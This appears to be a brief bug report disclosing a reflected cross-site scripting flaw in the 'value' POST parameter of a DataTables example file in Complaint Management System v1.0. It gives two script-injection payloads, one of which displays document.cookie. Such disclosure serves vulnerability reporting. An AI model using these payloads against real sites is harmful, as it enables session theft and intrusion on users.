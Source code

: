# Complaint Management System v1.0 has Cross-site scripting (reflected)

BUG_Author: 1406213367

Website source code address:https://www.sourcecodester.com/php/14206/complaint-management-system.html

Vulnerability File: /Complaint Management System/admin/assets/plugins/DataTables/examples/examples_support/editable_ajax.php

POST parameter 'value' exists XSS vulnerability

Payload1:value=1><script>alert(666)</script>

![image](https://github.com/1406213367/bug_report/blob/main/xss1.png)

Payload2:value=1><script>alert(document.cookie)</script>

![image](https://github.com/1406213367/bug_report/blob/main/xss2.png)

